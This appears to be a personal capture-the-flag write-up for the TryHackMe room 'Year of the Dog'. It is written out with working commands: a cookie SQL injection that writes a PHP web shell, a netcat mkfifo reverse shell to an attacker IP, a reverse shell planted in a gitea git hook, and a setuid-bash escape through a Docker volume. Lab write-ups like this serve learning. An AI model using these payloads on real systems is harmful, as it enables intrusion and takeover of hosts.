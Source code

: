 # Year of the Dog

https://tryhackme.com/room/yearofthedog

A hard room that required *a lot* of enumeration before I figured it out, including a few dead ends.

## Getting a shell

- A scan revealed only `22` and `80`
- On `80`, a page with no interaction that told me I was in a queue. A cookie was being set - clearing it randomly assigned me a new cookie and a new position in the queue
- The cookie value, if changed to `id='` triggered a mysql error. Via this, I discovered it was a server with one database, webapp, containing one table queue with two columns `userId` and `queueNum`. There seemed to be some primitive 'RCE protection in place' - certain queries would throw an error.
- I discovered that lowercase load_file and dumpfile worked (uppercase versions triggered the RCE error) - I extracted `/etc/passwd` this way, seeing there was a user named dylan
- Via this vuln, I got the `config.php` file (guessing correctly it was at `/var/www/html` and loading it into a text file in the same directory that I could access) and `index.php`
- `config.php` gave me the db creds. With `index.php` I could see that in addition to the banned words, `<` and `>` was blocked making PHP injection difficult. 
- however, I was able to get a primitive web shell via: `Cookie: id='+UNION+ALL+SELECT+'',concat(char(60),'?php+echo+shell_exec($_GET["e"])+?',char(62))+INTO+dumpfile+'/var/www/html/shell.php'+--+`, abusing MySql's `char` command to get around the `<`/`>` limits.
- the following got me a reverse shell: `/shell.php?e=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.154.104+4444+>/tmp/f`. this was then stabilised and improved with `python3 -c 'import pty; pty.spawn("/bin/bash")'` and then `export TERM=xterm`, Ctrl + Z, `stty raw -echo; fg`

## Getting user

- on the box as `www-data`, I discovered `dylan` was running an instance of gitea (a self contained git server, like gitlab or github) on port `3000`. not accessible from the outside, however, via  `ssh -N -R 3000:localhost:3000 root@10.10.154.104` I could get access to it on my attack machine (Note, while fine here in a CTF env and with this being a tryhackme attack machine, running a root ssh session back to your own host on a target machine is NOT a good idea - creds could be nicked, session hijacked, anything).
- enumerating this for *hours* got me nowhere. eventually, i went back over the machine with `linpeas.sh` and checked over a file I had seen earlier: `work_analysis`, plain ascii, in dylan's home dir. I had checked this before, seen it as a list of sshd failures with nothing of note. on the second check, huge facepalm, I found it had an entry for a failed login that was obviously the user dylan typing his password as his username. trying this I was able to `su` as dylan.

## Getting root

This was complex. Dylan owned all the files in /gitea, so I figured it was something to do with that.

- i tried to find the gitea executable via `find / -name gitea -type f 2>/dev/null`. I couldn't find it, but i did find git hook config files for each repo
- i had already created a test repo, and it had a file here: `/gitea/git/repositories/dylan/test-repo.git/hooks/update.d/gitea`, the contents of which looked like a standard bash file
- i appended a reverse shell call and then updated the repo. I got a call back! as user `git`
- git had rights to sudo as everything, so I elevated to root and done... right?
- quickly realised I was in a docker container on the main machine, and so no. also, it wasn't a privileged container.
- HOWEVER, the /data/gitea folder inside the container was mapped to /gitea/gitea on the host and they hadn't enabled user remapping in docker! documented here, https://docs.docker.com/engine/security/userns-remap/, in brief, it stops root inside the container from ALSO being effectively root on the host.
- so the final exploit was to copy bash into that mapped folder, use the container root to invoke `chown root bash` and `chmod u+s bash` then invoke it from outside as dylan via `./bash -p`. Boom, root

Very fun, very long. Spent around four hours on this - mostly trying to get various gitea exploits to run. That reverse port forward was ultimately unnecessary, but worth learning for the future.
